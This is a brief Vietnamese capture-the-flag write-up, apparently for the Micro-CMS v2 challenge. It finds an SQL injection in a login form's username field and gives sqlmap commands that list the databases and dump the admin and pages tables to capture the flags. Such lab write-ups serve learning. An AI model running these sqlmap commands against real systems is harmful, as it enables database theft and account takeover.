




# SQL Injection

## Phát hiện SQL injection

    Sử dụng ' thây server trả về  hình ảnh dưới



    Dựa vào đó thấy tham số  ảnh hưởng trực tiếp đến câu lệnh truy vấn là username.

## Sử dụng SQLMAP

```
python sqlmap.py -u http://xxx.xxx.xxx.xxx/XXXXXXX/login --method POST --data "username=ABC&password=" -p username --dbs
```


    Đã hiển thị hết database trong mysql. Và đây là Micro-CMS-v2 nên mình tập chung để dump data trong database level2

    Sử dụng tiếp sqlmap để dump data trong database
```
python sqlmap.py -u http://xxx.xxx.xxx.xxx/XXXXXXX/login --method POST --data "username=ABC&password=" -p username --dbs -D level2 --dump
```





    Dữ liêu của 2 table dump ra đầy đủ. admin thì có tài khoản
    Còn pages thì có flag 0

    Sử dụng tài khoản trong table admin login vào trong sẽ lấy được flag cuối cùng